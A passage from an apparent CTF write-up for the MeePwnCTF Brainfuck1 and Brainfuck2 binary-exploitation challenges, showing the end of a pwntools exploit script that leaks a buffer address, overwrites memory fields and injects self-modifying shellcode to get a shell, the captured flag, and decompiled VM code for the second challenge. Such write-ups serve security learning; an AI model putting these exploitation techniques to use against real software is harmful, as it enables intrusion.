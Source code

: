 ```python exp_bf1.py
    payload += ".>"*8

    cmd(payload)
    sc_base = u64(r.recvuntil(">>")[:8:]) >> 8
    r.unrecv(">>")
    log.success("sc_base: "+hex(sc_base))
    
    # make size = 0x400 so it won't clear our shellcode
    write(-0x10, p64(0x400))
    # change bf_data->dp = our shellcode buffer
    write(-0x30, p64(sc_base+0x800))
    # write final shellcode to our shellcode buffer
    write(0, sc)
    # write to bf_data->sc_buf ( it will become a self-modified shellcode)
    init_sc = asm("mov rax, %s" % hex(sc_base+0x800))
    init_sc += asm("call rax")
    print "init_sc", init_sc.encode('hex')
    print "len:", len(init_sc)
    write(-0x70d, init_sc)
    r.interactive()
```

flag: `MeePwnCTF{this_is_simple_challenge_:banana-dance:}`


## Brainfuck2

For Brainfuck2, the binary is basically the same as Brainfuck1, except it has the following exectuting process:

```c++
BrainFuckVM *__fastcall BrainFuckVM::run(BrainFuckVM *this)
{
    char *sc_buf; // ST20_8@1
    BrainFuckVM *v2; // ST18_8@1
    BrainFuckVM *result; // rax@3

    sc_buf = this->sc_buf;
    v2 = this;
    /* allocate + memset bf_data->dp */
    this->dp = (char *)operator new[](0x100uLL);
    memset(this->dp, 0, 0x100uLL);
    /* set the sc_buf's permission to r-x*/
    mprotect(v2->sc_buf, v2->sc_size, 5); 
    ((void (__fastcall *)(char *))sc_buf)(this->bf_mem);
    /* set the sc_buf's permission back to rw-*/
    mprotect(v2->sc_buf, v2->sc_size, 3);
    this->sc_pos = 0LL;
    memset(v2->sc_buf, 0, v2->sc_size);
    /* free bf_data->dp */
    if ( this->dp )
      operator delete(this->dp);
    result = this;
    this->dp = 0LL;
    return result;
}
```
